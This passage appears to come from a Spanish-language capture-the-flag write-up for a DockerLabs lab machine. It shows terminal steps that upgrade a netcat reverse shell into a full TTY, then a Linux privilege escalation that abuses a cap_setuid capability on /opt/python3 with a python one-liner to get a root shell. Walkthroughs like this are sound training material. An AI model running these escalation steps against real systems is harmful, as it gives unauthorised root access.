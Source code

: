 Realicé el tratamiento de la TTY para mejorar la interacción con la shell.

```terminal
kvzlx@kali:~$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
kvzlx@kali:/var/www/norc$ ^Z
zsh: suspended  nc -lnvp 1234

/home/kali/Documents/dockerlabs/norc:-$ stty raw -echo;fg
[1]  + continued  nc -lnvp 1234
                               reset
reset: unknown terminal type unknown
Terminal type? xterm

kvzlx@kali:/var/www/norc$ export TERM=xterm
kvzlx@kali:/var/www/norc$ export SHELL=bash

kvzlx@kali:/var/www/norc$ stty rows 42 columns 176
```

Revisé nuevamente las capacidades asignadas a los binarios del sistema. Y a diferencia del intento anterior como 'www-data', ahora puedo aprovechar esta capacidad con éxito.

```terminal
kvzlx@kali:~$ /sbin/getcap -r / 2>/dev/null
/opt/python3 cap_setuid=ep
kvzlx@kali:~$ /opt/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1000(kvzlx) groups=1000(kvzlx)
```